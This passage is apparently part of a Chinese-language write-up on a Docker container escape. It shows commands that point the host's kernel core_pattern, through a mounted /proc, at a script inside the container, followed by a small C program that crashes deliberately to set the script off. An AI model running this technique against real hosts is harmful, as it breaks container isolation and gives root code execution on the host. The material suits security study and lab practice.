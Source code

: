 ![](assets/1703484795-0515312636f58457af5e0bfb15437b6c.png)

接下来赋权并且将该脚本写到目标的 proc 目录下

![](assets/1703484795-5caef9c614bfd7222ac7b7af90fdba92.png)

```php
echo -e "|/var/lib/docker/overlay2/
a96c15fc172fbec0b7251a44e21408746afa9e9571202132618ed251db3a84a4/merged/tmp/.ning.py
\rcore " >  /host/proc/sys/kernel/core_pattern
```

然后我们使用c写一个可以触发崩溃的程序

```php
vim ning.c
#include<stdio.h>
int main(void)  {
   int *a  = NULL;
   *a = 1;
   return 0;
}
gcc ning.c -o ning
chmod 777 ning
```
